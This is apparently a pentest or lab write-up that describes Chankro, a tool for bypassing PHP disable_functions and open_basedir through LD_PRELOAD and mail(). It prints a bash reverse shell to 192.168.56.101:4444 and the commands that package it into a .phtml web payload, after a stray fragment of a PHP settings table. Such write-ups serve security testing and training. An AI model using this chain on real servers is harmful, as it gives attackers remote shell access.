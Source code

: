 | docref_ext                | no value                                                                                                                                                                                                                                                                                      | no value                                                                                                                                                                                                                                                                            |
| docref_root               | no value                                                                                                                                                                                                                                                                                      | no value                                                                                                                                                                                                                                                                            |
| enable_dl                 | Off                                                                                                                                                                                                                                                                                           | Off                                                                                                                                                                                                                                                                                 |
| enable_post_data_reading  | On                                                                                                                                                                                                                                                                                            | On                                                                                                                                                                                                                                                                                  |
| error_append_string       | no value                                                                                                                                                                                                                                                                                      | no value                                                                                                                                                                                                                                                                            |
| error_log                 | no value                                                                                                                                                                                                                                                                                      | no value                                                                                                                                                                                                                                                                            |

<div>
	<img src="./assets/logo_github.png" alt="GitHub Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GitHub</strong></span>
</div>

[Chankro](https://github.com/TarlogicSecurity/Chankro/tree/master)

[**#Chankro**]

Your favourite tool to bypass **disable_functions** and **open_basedir** in your pentests.

PHP in Linux calls a binary (sendmail) when the mail() function is executed. If we have putenv() allowed, we can set the environment variable "LD_PRELOAD", so we can preload an arbitrary shared object. Our shared object will execute our custom payload (a binary or a bash script) without the PHP restrictions, so we can have a reverse shell, for example.
The syntax is pretty straightforward:
```
$ python2 chankro.py --arch 64 --input rev.sh --output chan.php --path /var/www/html
```
Note: path is the absolute path where our .so will be dropped.

`vim ./reverse_shell.sh`:
```sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.56.101/4444 0>&1 2>&1
```

`python2 chankro.py --arch 64 --input reverse_shell.sh --output reverse_shell.phtml --path /var/www/html/`:
```
     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: reverse_shell.sh
[+] Architecture: x64
[+] Final PHP: reverse_shell.phtml ←


[+] File created! ←
```
